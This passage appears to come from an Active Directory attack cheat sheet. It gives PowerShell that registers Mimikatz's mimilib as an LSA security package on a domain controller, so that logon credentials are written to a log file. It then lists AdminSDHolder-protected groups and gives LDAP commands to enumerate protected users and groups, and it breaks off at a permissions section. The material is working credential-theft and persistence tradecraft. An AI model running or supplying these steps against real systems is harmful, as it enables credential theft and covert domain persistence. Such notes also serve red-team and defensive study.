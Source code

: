 ```
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages' 
$packages += "mimilib" 
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages 
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
All Local Logons on the DC are logged to:
C:\Windows\System32\kiwisso.log
### ADMIN SDHOLDER
##### ADMIN SDHOLDER - DEFAULT PROTECTED ADMINISTRATIVE GROUPS IN AD

- Enterprise Admins
- Schema Admins
- Domain Admins
- Administrators
- Account Operators
- Server Operators
- Print Operators
- Backup Operators
- Cert Publishers
- Domain Controllers
- Read-Only Domain Controllers
- Replicator

##### ADMIN SDHOLDER - LIST PROTECTED USERS:
```
Get-ADUser -LDAPFilter "(admincount=1)" | Select Name,DistinguishedName
```
##### ADMIN SDHOLDER - LIST PROTECTED GROUPS:
```
Get-ADGroup -LDAPFilter "(admincount=1)" | Select Name,DistinguishedName
```
##### ADMIN SDHOLDER - LIST PERMISSIONS
```
